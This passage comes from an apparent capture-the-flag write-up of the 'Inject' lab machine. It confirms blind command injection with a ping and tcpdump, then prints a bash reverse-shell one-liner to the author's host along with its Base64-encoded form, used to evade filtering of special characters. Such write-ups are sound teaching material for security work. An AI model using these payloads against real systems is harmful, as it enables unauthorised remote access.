 It does seem on Inject that anything I send to this endpoint crashes, so it’s
not clear to me that this is vulnerable yet.

#### POC

To test for execution, I’ll replace `sleep` with `ping -c 1 10.10.14.6` to
send one ICMP ping to my host. I’ll listen with `tcpdump` filtering for ICMP
traffic on my `tun0` interface. When I submit the HTTP request, there’s a
ping!

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    18:31:17.026312 IP 10.10.11.204 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    18:31:17.026319 IP 10.10.14.6 > 10.10.11.204: ICMP echo reply, id 2, seq 1, length 64
    

### Shell

#### Failures

This is blind execution (the response is just a 500 error, without the output
of the result). I’ll try a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but with the special
characters in that, it’s likely to not work:

![image-20230313183519151](../img/image-20230313183519151.png)

There’s no connection at my `nc` listening on 443.

I’ll encode the payload with Base64:

    
    
    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    

With a couple extra spaces I can get rid of the special characters (`+` and
`=`):

    
    